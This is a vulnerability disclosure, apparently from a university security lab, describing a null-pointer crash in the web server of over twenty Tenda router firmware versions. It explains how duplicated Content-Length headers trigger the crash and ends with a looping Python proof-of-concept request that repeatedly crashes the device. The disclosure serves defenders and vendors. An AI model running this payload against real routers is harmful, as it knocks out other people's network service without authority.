

# Overview

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| AC8v4    | V16.03.34.06    | https://www.tenda.com.cn/download/detail-3518.html    |
| AC8v4    | V16.03.34.09    | https://www.tenda.com.cn/download/detail-3683.html    |
| AC10v5    | V16.03.48.23    | https://www.tenda.com.cn/download/detail-3851.html    |
| AC10v5    | V16.03.48.19    | https://www.tenda.com.cn/download/detail-3771.html    |
| AC10v4    | V16.03.10.20    | https://www.tenda.com.cn/download/detail-3684.html    |
| AC10v4    | V16.03.10.13    | https://www.tenda.com.cn/download/detail-3506.html    |
| AC6v2    |  V15.03.06.23    | https://www.tenda.com.cn/download/detail-2855.html    |
| AC1206    | V15.03.06.23    | https://www.tenda.com.cn/download/detail-2766.html   |
| AC9V3      | V15.03.06.42   | https://www.tenda.com.cn/download/detail-2908.html   |
| AC9V1      | V15.03.05.19(6318_)   | https://www.tenda.com.cn/download/detail-2682.html   |
| AC9V1     |  V15.03.05.14   | https://www.tenda.com.cn/download/detail-2650.html   |
| AC9V1     |  V15.03.2.13   | https://www.tenda.com.cn/download/detail-2554.html   |
| AC18      | V15.03.05.19(6318)    | https://www.tenda.com.cn/download/detail-2683.html    |
| AC18      | V15.03.05.05    | https://www.tenda.com.cn/download/detail-2610.html    |
| AC500      |  V2.0.1.9(1307)    | https://www.tenda.com.cn/download/detail-2470.html    |
| AC500     | V1.0.0.16   | https://www.tenda.com.cn/download/detail-2219.html    |
| AC500     | V1.0.0.14   | https://www.tenda.com.cn/download/detail-2078.html   |
| AC10U    | V15.03.06.48   | https://www.tendacn.com/download/detail-3170.html    |
| AC10U    | V15.03.06.49   | https://www.tendacn.com/download/detail-3795.html    |
| AC7    | V15.03.06.44   |https://www.tenda.com.cn/download/detail-2776.html    |
| AC15    | V15.03.05.18   | https://www.tenda.com.cn/download/detail-2710.html   |
| AC15    | V15.03.05.19   | https://www.tenda.com.cn/download/detail-2680.html  |


# Vulnerability details
## 1. Vulnerability Trigger Location
The following vulnerability analysis and explanation are based on the `AC8V4` router, with firmware version `V16.03.34.06`. The vulnerability trigger and analysis methods for other models are similar.

The vulnerability trigger location is at the `strlen` function call under the `websReadEvent` function, at address 0x433c08. For easier analysis, I referred to the GoAhead 2.5 source code from https://github.com/ehlalwayoUk/goahead/tree/master and modified the variable names in Ghidra accordingly.


## 2. Conditions to Satisfy
- In the websUrlParse function, the `?` in POST /goform/GetIPTV?fgHPOST/goform/SysToo allows `strchr` at `0x426400` to get the index of the ?. Referring to the GoAhead source code, it can be seen that the information after `?` is stored in `wp->query`.   

- **Content-Length** must be written twice.
    - The first `Content-Length` should be `>= 1`. This is necessary to set `param_1 + 0xec(wp->flags) |= 0x400` and call `websSetVar`  to set `CONTENT_LENGTH` value..
    
    - The second `Content-Length` is to set `clen = 0`. It set `param_1 + 0xf4 = 0`.
- After that, an empty line (`\r\n`) is needed to ensure the final `text` is empty.In the `socketGets` function, reading an isolated \r\n sets `nbytes = 0`, and as a result, `*text = 0`. The corresponding assembly location is at `0x41bef4`.

- Due to conditions such as nbytes = 0 being met, wp->state = 8 is finally set in the websGetInput function at address 0x434694.

- At address `0x4339dc` in the websReadEvent function, the value of `iVar2` is obtained as `wp->state`, which is 8.

- As a result, in the `websReadEvent` function, because `iVar2 = 8` and there is content in `wp->query`, both the `if` and `else if` conditions are not satisfied, leading to the else branch being executed, which triggers the vulnerability.`strlen` is called with a null pointer, which leads to a segmentation fault when dereferenced internally.


# POC

```python
import socket

host = "192.168.1.100"
port = 80
times = 0
while 1:
    times += 1
    print("times:"+str(times))
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    request = (
        "POST /goform/GetIPTV?fgHPOST/goform/SysToo HTTP/1.1\r\n"
        "Content-Length:1\r\n"
        "Content-Length:# \r\n"
        "\r\n"
    )
    s.send(request.encode())
    response = s.recv(4096)
    print(response.decode())
    s.close()
```

# Vulnerability Verification Screenshot
## 1. AC8v4 &nbsp;&nbsp; V16.03.34.06


## 2. AC8v4 &nbsp;&nbsp; V16.03.34.09


## 3. AC10v5 &nbsp;&nbsp; V16.03.48.23 && V16.03.48.19
Since the firmware for version V5 is encrypted and cannot be opened from the official website, it was tested on the actual device. This is a screenshot from the actual router.


## 4. AC10v4 &nbsp;&nbsp; V16.03.10.20


## 5. AC10v4 &nbsp;&nbsp; V16.03.10.13


## 6. AC6v2 &nbsp;&nbsp; V15.03.06.23


## 7. AC1206 &nbsp;&nbsp; V15.03.06.23


## 8. AC9V3 &nbsp;&nbsp; V15.03.06.42


## 9. AC9V1 &nbsp;&nbsp; V15.03.05.19(6318_)


## 10. AC9V1 &nbsp;&nbsp; V15.03.05.14


## 11. AC9V1 &nbsp;&nbsp; V15.03.2.13


## 12. AC18 &nbsp;&nbsp; V15.03.05.19(6318)


## 13. AC18 &nbsp;&nbsp; V15.03.05.05


## 14. AC500 &nbsp;&nbsp; V2.0.1.9(1307)


## 15. AC500 &nbsp;&nbsp; V1.0.0.16


## 16. AC500 &nbsp;&nbsp; V1.0.0.14


## 17. AC10U &nbsp;&nbsp; V15.03.06.48


## 18. AC10U &nbsp;&nbsp; V15.03.06.49


## 19. AC7 &nbsp;&nbsp; V15.03.06.44


## 20. AC15 &nbsp;&nbsp; V15.03.05.18 && V15.03.05.19


# Discoverer
The vulnerability was discovered by Professor Wei Zhou's team (IoTS&P Lab) from the School of Cyber Science and Engineering at Huazhong University of Science and Technology.
